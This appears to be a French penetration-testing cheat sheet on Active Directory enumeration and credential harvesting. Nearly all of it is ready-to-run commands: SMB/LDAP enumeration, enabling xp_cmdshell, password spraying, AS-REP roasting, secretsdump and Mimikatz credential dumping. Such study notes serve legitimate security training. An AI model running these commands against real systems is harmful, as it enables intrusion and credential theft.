

Ce diagramme illustre la chaîne d'attaque typique pour l'énumération et la collecte de credentials dans un environnement Active Directory.



## SMB (Windows Shares)

### enum4linux
Lister les partages accessibles sur un hôte Windows :
```bash
enum4linux -S <IP>
```

Récupérer les utilisateurs Windows :
```bash
enum4linux -U <IP>
```

Énumération complète :
```bash
enum4linux -a <IP>
```

### netexec (anciennement crackmapexec)
Lister les partages accessibles :
```bash
netexec smb <IP> --shares
```

Énumérer les utilisateurs :
```bash
netexec smb <IP> --users
```

Tester un identifiant/mot de passe :
```bash
netexec smb <IP> -u <USER> -p <PASSWORD>
```

### smbclient
Lister les partages :
```bash
smbclient -L //<IP> -N
```

Se connecter à un partage en anonyme :
```bash
smbclient //<IP>/SHARE -N
```

> [!warning] Attention au blocage de compte
> Le bruteforce ou le password spraying intensif peut entraîner le verrouillage des comptes utilisateurs.

## WinRM/PowerShell Remoting

### Énumération
Vérifier si WinRM est actif (port 5985/5986) :
```bash
nmap -p 5985,5986 <IP>
```

### Connexion
Utiliser **evil-winrm** pour obtenir un shell interactif avec des credentials valides :
```bash
evil-winrm -i <IP> -u <USER> -p <PASSWORD>
```

## MSSQL/Database Enumeration

### Énumération
Scanner les instances MSSQL :
```bash
nmap -p 1433 --script ms-sql-info <IP>
```

### Authentification et exécution
Utiliser **mssqlclient.py** (Impacket) pour interagir avec la base :
```bash
mssqlclient.py <DOMAIN>/<USER>:<PASSWORD>@<IP> -windows-auth
```

Une fois connecté, activer l'exécution de commandes système (si les privilèges le permettent) :
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

## Password Spraying (stratégie et risques)

Le **Password Spraying** consiste à tester un mot de passe unique sur une liste d'utilisateurs pour éviter le verrouillage de compte.

### Stratégie
1. Identifier la politique de verrouillage (Account Lockout Policy) via LDAP.
2. Utiliser des mots de passe saisonniers ou basés sur le nom de l'entreprise (ex: `Company2024!`).

### Exécution avec netexec
```bash
netexec smb <IP_RANGE> -u users.txt -p 'Password123!' --continue-on-success
```

> [!danger] Risque de détection
> Un volume élevé de requêtes sur une courte période déclenchera les alertes SIEM/EDR.

## Analyse de fichiers de configuration

Rechercher des credentials en clair dans les fichiers de configuration web ou applicatifs :

| Fichier | Emplacement typique |
| :--- | :--- |
| `web.config` | `C:\inetpub\wwwroot\` |
| `settings.json` | Dossiers applicatifs |
| `config.php` | Serveurs web (XAMPP/WAMP) |

Exemple de recherche via **evil-winrm** :
```powershell
dir -Recurse -Filter *.config | select-string "password"
```

## GPO/ACL Enumeration

### BloodHound
Utiliser **BloodHound.py** pour collecter les données de l'AD :
```bash
bloodhound-python -d <DOMAIN> -u <USER> -p <PASSWORD> -dc <DC_IP> -c All
```

### PowerView
Énumérer les permissions sur les objets AD :
```powershell
Get-ObjectAcl -Identity "Administrators" -ResolveGUIDs
```

Ces techniques s'inscrivent dans les phases de **Active Directory Enumeration**, **Kerberoasting**, **Password Attacks**, **SMB Enumeration** et **Post-Exploitation Basics**.

## RDP (Remote Desktop)

### netexec (RDP)
Vérifier si RDP est activé :
```bash
netexec rdp <IP>
```

Tester un identifiant/mot de passe :
```bash
netexec rdp <IP> -u <USER> -p <PASSWORD>
```

### rdp-enum
Scanner les sessions RDP :
```bash
rdp-enum <IP>
```

## FTP (File Transfer Protocol)

### Nmap
Lister les services FTP :
```bash
nmap -p 21 --script=ftp-anon,ftp-bounce,ftp-syst <IP>
```

### Hydra
Tester une liste d'identifiants/mots de passe :
```bash
hydra -L users.txt -P pass.txt ftp://<IP>
```

## LDAP (Active Directory)

> [!info] Prérequis
> La plupart des requêtes LDAP nécessitent un compte valide pour réussir l'énumération.

### ldapsearch
Lister les utilisateurs :
```bash
ldapsearch -x -h <IP> -b "dc=domain,dc=com"
```

Récupérer les comptes administrateurs :
```bash
ldapsearch -x -h <IP> -b "dc=domain,dc=com" '(objectClass=person)'
```

Tentative de connexion anonyme pour récupérer le naming context :
```bash
ldapsearch -x -H ldap://<IP> -s base namingContexts
```

### Nmap
Scanner LDAP :
```bash
nmap -p 389 --script=ldap-rootdse,ldap-search <IP>
```

## Kerberos (Windows Authentication)

> [!note] Différence entre AS-REP Roasting et Kerberoasting
> L'**AS-REP Roasting** cible les utilisateurs sans pré-authentification **Kerberos** requise, tandis que le **Kerberoasting** cible les services disposant d'un **SPN**.

### Kerbrute
Vérifier la validité d’une liste d’utilisateurs :
```bash
kerbrute userenum -d <DOMAIN> --dc <IP> userlist.txt
```

Tester un mot de passe sur plusieurs utilisateurs :
```bash
kerbrute passwordspray -d <DOMAIN> --dc <IP> -u userlist.txt -p <PASSWORD>
```

### GetNPUsers.py (Impacket)
Récupérer des **TGT** non protégés par une authentification préalable :
```bash
GetNPUsers.py <DOMAIN>/ -usersfile userlist.txt -no-pass -dc-ip <IP>
```

## Mots de Passe en Clair / Hashes

### secretsdump.py (Impacket)
Extraire les hashes d’un hôte Windows :
```bash
secretsdump.py <DOMAIN>/<USER>@<IP> -hashes :<NTLM_HASH>
```
> [!warning] Privilèges requis
> L'exécution de **secretsdump.py** nécessite des privilèges d'administrateur local ou de domaine (ex: **SeBackupPrivilege** ou **SeDebugPrivilege**).

### Mimikatz
> [!danger] Risque de détection EDR
> L'utilisation de **Mimikatz** est hautement détectable par les solutions EDR/AV.

Lister les sessions en cours :
```powershell
privilege::debug
sekurlsa::logonpasswords
```

Extraire les **NTLM** Hashes :
```powershell
sekurlsa::msv
```